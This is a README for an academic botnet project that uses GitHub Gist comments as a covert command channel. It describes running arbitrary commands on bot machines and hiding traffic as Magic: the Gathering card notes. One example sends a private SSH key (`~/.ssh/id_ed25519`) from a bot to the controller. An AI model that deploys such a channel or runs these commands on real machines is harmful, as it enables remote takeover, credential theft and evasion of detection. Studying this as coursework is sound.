 # GistBotnet

A simple botnet implementation using GitHub Gists as the communication channel.

The project is intended for academic purposes.
It was done as a part of the "Introduction to Security" course at FEE of CTU in Prague.

## Features

The botnet uses comments of a specified gist post as the communication channel.

The controller periodically checkd which bots are alive.

Any bash command can be executed on the bot machines using the controller. (Including execution of a binary file.)

A file can be sent from any bot to the controller.

The communication is 'steganized' to not look like bot communication and a (very basic) encryption is used.

All sent and received commands are logged in the `.controllog` and `.botlog` files.

## Message Steganization

The messages are steganized so it looks as if the comment section of the gist post was being used by the user as a list of good cards they found for their MtG decks.

The following process takes place to steganize each message:

- Randomly select one of the predefined MtG decks.

- Query scryfall.com for a random card which fits the given deck using predefined queries for each deck.

- Select a random 'human note' from a predefined list of notes.

- Base64 encode the secret message, encrypt it via the Vigenere cypher and url encode it.

- Construct the gist comment by combining the human note, deck name, card name and card link. Concatenate the encoded message to the card link with preceding `/#` so that the link works as normal.

This process ensures that the message does not look suspicous or bot-generated at the first glance and the encoded secret message is hidden in the link (which still works) and thus not immidiately suspicious.

Here is an example of how the communication channel can look: https://gist.github.com/soldasim/d52ec4473ceeb711bf234f1e41ebc06a

## Basic Usage

### Configuration

The botnet has to be configured before usage by filling all fields in the `config.json` file.

`GIT_API_TOKEN`: Github access token to post comments on the gist. Create one at https://github.com/settings/tokens?type=beta. Give it the 'Read and Write access to gists' permission.

`GIST_ID`: The id of the gist used as the communication channel. Copy it from the gist url. (`https://gist.github.com/<USER>/<GIST_ID>`)

`STEG_KEY`: The key used for message encryption. Can contain letters (upper & lower case) and digits.

### Bot

- Run `python3.8 bot.py`. The bot will periodically check for any new commands from the controller and respond to them.

### Controller

- Run `python3.8 controller.py hb` in one terminal. This proccess will periodically send 'HEARTBEAT' messages to the bots to check which are alive and recieve all of their responses.

- Run `python3.8 controller.py cmd -d <command> -b <botid>` to request a bot to execute the given command.

## Commands

The list of all controller commands follows:

### heartbeat, hb

Periodically check which bots are alive and receive their responses.

Examples: `python3.8 controller.py heartbeat` `python3.8 controller.py hb`

### cmd, exec

Execute the given command or binary file. (The two options are equivalent.)

Examples: `python3.8 controller.py cmd -d ps` `python3.8 controller.py exec -d /path/to/bin`

### w, ls, id

Execute the according shell command. The same result can be achieved using the `cmd` command.

Examples: `python3.8 controller.py ls` is equivalent to `python3.8 controller.py cmd -d ls`

### sendfile, sf

Send the given file to the controller.

Examples: `python3.8 controller.py sf -d README.md` `python3.8 controller.py sf -d ~/.ssh/id_ed25519`

## Options

### --data, -d

Provide data if the command requires it.

### --bot, -b

Specifiy the id of the bot which is to execute the command. Defaults to `0` which is interpreted as BROADCAST and all bots will respond.

### --silent, -s

Make the controller print less output.

### --noresponse, -n

Tell the bot to not respond to this command and only execute it. (Only makes sense with some commands.)
